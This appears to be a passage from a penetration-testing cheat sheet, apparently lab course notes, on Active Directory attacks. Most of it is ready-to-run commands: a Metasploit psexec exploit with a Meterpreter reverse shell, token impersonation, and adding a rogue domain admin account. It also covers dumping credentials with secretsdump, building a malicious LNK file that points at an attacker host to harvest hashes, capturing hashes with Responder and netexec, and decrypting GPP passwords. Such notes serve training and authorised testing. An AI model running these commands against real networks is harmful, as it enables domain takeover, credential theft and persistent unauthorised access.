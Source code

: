#### Token Impersonation
```bash
# Using Metasploit
msfconsole
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
# Set other options (RHOSTS, LHOST, etc.)
run

# In Meterpreter session
load incognito        # Load the incognito module
list_tokens -u        # List available tokens
impersonate_token MARVEL\\administrator  # Impersonate admin token
shell                 # Get a shell with the new token

# After getting DA token, create new domain admin
net user hawkeye Password1@ /add /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN

# Verify access with new account using secretsdump
secretsdump.py domain/hawkeye:Password1@@DC-IP
```

#### LNK File Attacks

##### PowerShell LNK Creation
```powershell
# Create malicious LNK file
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\attacker-ip\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

##### Using Responder
```bash
# Start Responder to capture hash
sudo responder -I eth0 -dPv

# Using netexec (updated crackmapexec) with slinky module
netexec smb 10.0.0.0/24 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=attacker-ip
```

#### GPP (Group Policy Preferences) Attacks

##### Manual Approach
```bash
# Find GPP files in SYSVOL
find / -name Groups.xml 2>/dev/null
# Look for cpassword attribute in XML files

# Decrypt GPP password
gpp-decrypt <encrypted-string-here>
```
